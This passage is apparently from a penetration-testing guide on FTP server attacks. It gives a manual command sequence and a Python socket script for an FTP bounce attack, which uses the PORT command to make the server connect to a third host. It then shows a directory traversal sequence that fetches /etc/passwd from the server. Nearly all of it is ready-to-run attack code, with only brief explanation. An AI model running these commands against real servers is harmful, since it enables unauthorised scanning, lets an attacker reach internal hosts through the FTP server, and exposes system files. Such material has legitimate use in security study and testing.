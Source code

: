 #### Manual Method

```bash
# Connect to FTP server
ftp 192.168.1.10
Username: username
Password: password

# Execute PORT command pointing to target
PORT 192,168,1,5,0,80
```

#### Python Implementation

```python
import socket

# Create a socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.1.10', 21))

# Receive banner
print(s.recv(1024).decode('utf-8'))

# Send username and password
s.send(b'USER username\r\n')
print(s.recv(1024).decode('utf-8'))
s.send(b'PASS password\r\n')
print(s.recv(1024).decode('utf-8'))

# Use PORT command for bounce attack
# Format: PORT h1,h2,h3,h4,p1,p2 (IP = h1.h2.h3.h4, Port = p1*256+p2)
s.send(b'PORT 192,168,1,5,0,80\r\n')
print(s.recv(1024).decode('utf-8'))

# Issue LIST command to connect to target
s.send(b'LIST\r\n')
print(s.recv(1024).decode('utf-8'))

s.close()
```

### Directory Traversal

Some FTP servers are vulnerable to directory traversal attacks.

```bash
# Connect to FTP server
ftp 192.168.1.10
Username: anonymous
Password: anonymous@example.com

# Attempt directory traversal
cd ../..
cd /etc
get passwd
```
